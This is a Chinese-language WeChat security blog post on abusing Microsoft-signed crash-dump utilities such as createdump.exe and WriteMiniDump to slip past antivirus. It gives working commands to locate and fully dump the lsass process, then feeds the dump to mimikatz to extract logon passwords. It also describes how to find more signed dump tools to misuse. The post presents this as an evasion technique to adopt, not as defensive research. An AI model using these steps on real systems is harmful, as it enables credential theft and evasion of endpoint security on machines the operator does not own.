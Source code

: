 #  聊聊minidump签名文件的滥用

原创 JC  [ JC的安全之路 ](javascript:void\(0\);)

**JC的安全之路** ![]()

微信号 csec527

功能介绍 一个安全从业者的想法见解 ，每周随缘更新1-2篇

____

___发表于_

收录于合集

#安全小技巧 6 个

#minidump 1 个

  

  

**前言**  
  

前段时间，看到好多佬发minidump的姿势，突发奇想，合法签名的dump难道不是更加专业？

  

 **01** **聊聊对抗相关  
**

  

AV对抗到现在，基本上最终的目的其实都是恶意软件合法化，关键点就在于如何让一个恶意文件变成合法的受反病毒所信任的一个文件。

目前流传的一些方法，寻找那些签名的辅助小工具，比如常见的Teamview，Todesk，向日葵远程控制，接下来以createdump.exe为例，聊聊如何寻找dump内存的白利用。  

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    C:\Users\JC\Desktop\dump>createdump.execreatedump [options] pid-f, --name - dump path and file name. The default is '%TEMP%\dump.%p.dmp'. These specifiers are substituted with following values:   %p  PID of dumped process.   %e  The process executable filename.   %h  Hostname return by gethostname().   %t  Time of dump, expressed as seconds since the Epoch, 1970-01-01 00:00:00 +0000 (UTC).-n, --normal - create minidump.-h, --withheap - create minidump with heap (default).-t, --triage - create triage minidump.-u, --full - create full core dump.-d, --diag - enable diagnostic messages.

这是一个合法的工具，带有微软签名，在微软的.net5.0的SDK工具包中。

下载地址：

https://dotnet.microsoft.com/zh-cn/download/dotnet/thank-
you/sdk-5.0.408-windows-x64-installer

安装后，搜一下就找到了

  * 

    
    
    C:\Program Files\dotnet\shared\Microsoft.NETCore.App\5.0.17

  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230623141100.png)

它带有合法数字签名以及证书：

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230623141102.png)

  

使用也很简单，先找到lsass的进程，再使用管理员权限进行导出dump文件

  *   *   *   *   *   * 

    
    
    C:\Users\JC\Desktop\dump>tasklist |findstr lsasslsass.exe                      616 Services                   0     43,740 K  
    C:\Users\JC\Desktop\dump>createdump.exe 616 -uWriting full dump to file C:\Users\JC\AppData\Local\Temp\dump.616.dmpDump successfully written

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230623141104.png)

接下来嘛，使用mimikatz一把(没啥好说的)

> peach # sekurlsa::minidump C:\Users\JC\Desktop\dump.616.dmp  
> Switch to MINIDUMP : 'C:\Users\JC\Desktop\dump.616.dmp'  
>  
> peach # sekurlsa::logonpasswords  
>  
>

 **02** **如何查找  
**  
从查找来说，其实很简单，因为很多程序在上线之初，或多或少存在这样或者那样的BUG，有很多导致程序崩溃的BUG，开发为了方便定位BUG，一般会有附带的独立调试工具，这些调试工具中就包含dump程序内存，用来定位异常和调试。对我们而言，这些dump工具就是天然的白利用。  
    这里我就根据本机安装的一些正常软件，查找这类利用：

![]()

可以看到这个程序，也是用于dump内存的，并且包含微软的签名：  
![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230623141105.png)简单的运行一下：  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230623141106.png)

可以看到很贴心的给出了帮助:

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230623141107.png)

当然也是可以dump成功的。  

 除了上面的，其实还有很多，再举个例子：

 **WriteMiniDump**

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230623141108.png)

  

使用方法

  * 

    
    
    WriteMiniDump /type full 1844 123.dmp

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230623141109.png)

当然，这个有一定限制，只能dump32位进程的内存，仅仅只是举个例子罢了。

  
  

 **03** **写在最后  
**  

  

  世上本没有路

走得人多了

便有了路

安全亦是如此

  
  

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230623141110.png)

  

  

  
 **END**  
![]() **扫码关注了解更多** 安全小技巧  
  

  

  

  

  
  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

